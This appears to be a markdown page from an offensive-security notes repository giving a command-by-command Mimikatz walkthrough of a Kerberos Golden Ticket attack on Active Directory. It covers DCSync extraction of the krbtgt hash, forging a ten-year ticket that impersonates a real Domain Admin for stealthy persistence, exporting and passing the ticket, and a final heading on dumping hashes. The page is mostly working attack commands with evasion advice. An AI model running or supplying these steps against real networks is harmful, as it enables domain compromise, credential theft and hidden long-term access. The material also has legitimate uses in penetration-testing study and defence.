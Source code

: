 # Golden Ticket

## 01 - Mimikatz

### 1.1 - Manual

```
mimikatz # privilege::debug
Privilege '20' OK
```

Note down the domain name, domain controller, and Object Security ID which is the SID (ignore the last digits before the dash like `-501` for example)

`mimikatz # lsadump::dcsync /domain:<domain_name> /user:krbtgt`

Finally to generate a golden ticket to authenticate as an admin in order to maintain persistence it is recommended for OPSEC reasons that instead of making a new username (like **sysadmin** or **Administrator**) which you can but it's better to impersonate one of the user accounts that is part of **Domain Admins**

Run this command to check which users are part of the **Domain Admins** group to impersonate it (note it will last for 10 years)

```
C:\> net group "domain admins" /domain

mimikatz # kerberos::golden /domain:<domain_name> /sid:<sid> /krbtgt:<krbtgt_ntlm_hash> /id:500 /user:<domain_admin_user_account_to_impersonate> /ptt
```

Note: you can export the ticket to save for further use in the future

```
mimikatz # kerberos::golden /domain:<domain_name> /sid:<sid> /krbtgt:<krbtgt_ntlm_hash> /id:500 /user:<domain_admin_user_account_to_impersonate> /ticket:golden_ticket.kirbi /ptt
```

List the golden ticket account to see if you're authenticated (Your current session)

```
C:\> klist

mimikatz # kerberos::list

mimikatz # kerberos::tgt
```

To export a golden ticket that is already authenticated in the active directory

`mimikatz # kerberos::list /export`

Pass The Ticket

`mimikatz # kerberos::ptt golden_ticket.kirbi`

Dump the hashes
